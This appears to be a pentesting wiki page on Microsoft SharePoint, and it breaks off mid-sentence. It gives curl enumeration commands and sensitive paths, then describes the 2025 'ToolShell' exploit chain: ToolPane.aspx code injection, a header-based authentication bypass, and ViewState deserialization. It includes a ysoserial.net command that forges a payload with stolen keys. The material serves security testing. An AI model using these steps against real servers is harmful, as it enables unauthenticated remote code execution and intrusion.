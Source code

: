 # Microsoft SharePoint – Pentesting & Exploitation


> Microsoft SharePoint (on-premises) is built on top of ASP.NET/IIS.  Most of the classic web attack surface (ViewState, Web.Config, web shells, etc.) is therefore present, but SharePoint also ships with hundreds of proprietary ASPX pages and web services that dramatically enlarge the exposed attack surface.  This page collects practical tricks to enumerate, exploit and persist inside SharePoint environments with emphasis on the 2025 exploit chain disclosed by Unit42 (CVE-2025-49704/49706/53770/53771).

## 1. Quick enumeration

```
# favicon hash and keywords
curl -s https://<host>/_layouts/15/images/SharePointHome.png
curl -s https://<host>/_vti_bin/client.svc | file -  # returns WCF/XSI

# version leakage (often in JS)
curl -s https://<host>/_layouts/15/init.js | grep -i "spPageContextInfo"

# interesting standard paths
/_layouts/15/ToolPane.aspx               # vulnerable page used in 2025 exploit chain
/_vti_bin/Lists.asmx                     # legacy SOAP service
/_catalogs/masterpage/Forms/AllItems.aspx

# enumerate sites & site-collections (requires at least Anonymous)
python3 Office365-ADFSBrute/SharePointURLBrute.py -u https://<host>
```
```
## 2. 2025 exploit chain (a.k.a. “ToolShell”)

### 2.1 CVE-2025-49704 – Code Injection on ToolPane.aspx

`/_layouts/15/ToolPane.aspx?PageView=…&DefaultWebPartId=<payload>` allows arbitrary *Server-Side Include* code to be injected in the page which is later compiled by ASP.NET.  An attacker can embed C# that executes `Process.Start()` and drop a malicious ViewState.

### 2.2 CVE-2025-49706 – Improper Authentication Bypass

The same page trusts the **X-Forms_BaseUrl** header to determine the site context.  By pointing it to `/_layouts/15/`,  MFA/SSO enforced at the root site can be bypassed **unauthenticated**.

### 2.3 CVE-2025-53770 – Unauthenticated ViewState Deserialization → RCE

Once the attacker controls a gadget in `ToolPane.aspx` they can post an **unsigned** (or MAC-only) `__VIEWSTATE` value that triggers .NET deserialization inside *w3wp.exe* leading to code execution.

If signing is enabled, steal the **ValidationKey/DecryptionKey** from any `web.config` (see 2.4) and forge the payload with *ysoserial.net* or *ysodom*:

```
ysoserial.exe -g TypeConfuseDelegate -f Json.Net -o raw -c "cmd /c whoami" |
    ViewStateGenerator.exe --validation-key <hex> --decryption-key <hex> -o payload.txt
```
```
For an in-depth explanation on abusing ASP.NET ViewState read:
